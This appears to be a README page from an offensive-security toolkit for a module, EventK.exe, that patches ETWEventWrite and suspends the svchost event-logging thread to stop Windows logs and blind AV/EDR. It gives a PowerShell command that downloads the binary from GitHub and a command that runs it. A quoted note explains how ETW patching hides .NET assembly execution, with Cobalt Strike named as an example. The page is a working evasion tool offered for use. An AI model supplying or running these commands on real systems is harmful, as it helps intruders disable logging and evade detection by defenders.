## Module Name
   <b><i>EventK.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Patch the ETWEventWrite function to<br />prevent the creation of logfiles|Administrator|Suspend thread in svchost.exe related<br />to event logging (@SolomonSklash)<br />[Screenshot](https://naoexiste)|

<br />

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/EventK.exe" -OutFile "EventK.exe"
```

<br />

```powershell
.\EventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Next up is coverage of Event Tracing for Windows (ETW), how it can rat you out to AV/EDR,
and how to blind it in your local process. ETW is especially relevant when executing .NET
assemblies, such as in Cobalt Strike’s execute-assembly, as it can inform defenders of the
exact assembly name and methods executed. The solution in this case is simple: Patch the
ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW event
is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html
